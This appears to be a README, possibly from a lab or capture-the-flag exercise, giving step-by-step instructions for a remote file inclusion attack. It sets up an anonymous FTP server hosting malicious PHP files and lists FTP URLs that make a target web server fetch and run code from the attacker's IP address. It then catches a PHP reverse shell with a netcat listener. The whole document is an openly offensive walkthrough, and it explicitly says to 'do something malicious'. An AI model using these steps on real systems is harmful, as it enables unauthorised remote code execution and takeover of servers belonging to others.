 # SETTING UP THE FTP SERVER

1: install vsftpd on your machine

	sudo apt-get install vsftpd

2: enable anonymous logins

change the line `anonymous_enable=No` to end wth `Yes`

*alternatively you could set up a legit user and encode this in the url*
*https://help.ubuntu.com/lts/serverguide/ftp-server.html*

3: copy the php files to the ftp directory

	cp ./*.php /srv/ftp/
 
----------------------------
# TRYING TO ACCESS THE FILES

we want the web server to send a request to us to get a file
so we will input a command that makes their server send a request to download our malicious file
here are some commands I think might work

	ftp://192.168.3.158/srv/ftp/hello.php
	ftp://192.168.3.158/srv/ftp/php-reverse-shell.php
	ftp://user:password@192.168.3.158:port/path

**replace my IP with yours**

these commands are also in the file *commands* so u can cat the file and easily copy and paste them

--------------------------
# USING THE REVERSE SHELL

To check that we can get the server to execute our php code first try to get the server to access our *hello.php* file and see if it makes an alert to the screen

Once this works proceed to do something malicious, e.g get a reverse shell

**prep the *reverse-shell.php* by replacing the hardcoded IP address in that to whatever your IP is, this is a reverse shell, not a bind shell**

Then, before u get the server to execute the file on your machine run the following command

	nc -lkp 1234

this starts netcat, **l**istening on **p**ort 1234, and in **k**eep alive mode

when the file gets executed this should give you a shell on the target

